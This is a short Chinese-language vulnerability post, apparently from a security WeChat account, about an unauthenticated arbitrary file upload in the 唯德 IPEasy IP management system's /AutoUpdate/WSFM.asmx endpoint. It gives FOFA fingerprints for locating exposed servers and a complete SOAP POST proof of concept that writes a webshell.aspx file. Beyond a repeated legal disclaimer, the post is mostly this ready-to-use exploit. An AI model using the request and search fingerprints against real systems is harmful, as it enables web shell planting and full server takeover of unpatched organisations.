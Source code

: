 #  唯德科创 IPEasy 知易通 WSFM 任意文件上传漏洞   
 HK安全小屋   2025-06-05 14:00  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
唯徳知识产权管理系统 /AutoUpdate/WSFM.asmx 接口存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
唯徳知识产权管理系统  
  
  
影响版本：  
  
  
唯徳知识产权管理系统  
  
  
  
FOFA:  
```
body="JSCOMM/language.js"
icon_hash="511014626"
```  
  
  
POC：  
```
POST /AutoUpdate/WSFM.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: 1254
SOAPAction: "http://tempuri.org/UploadFileWordTemplate"
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFileWordTemplate xmlns="http://tempuri.org/">
      <fileByteArray>dGVzdHdlYnNoZWxs</fileByteArray>
      <remotePath>/TemplateFiles/webshell.aspx</remotePath>
    </UploadFileWordTemplate>
  </soap:Body>
</soap:Envelope>
```  
  
成功完成文件上传  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI11T70BIrOnIfw8ib3EiabPFK3EffTOGXfwukgu3JY2iaUc97A5p2NAywicrag5yWnn9xT2fhkL8qVMrA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
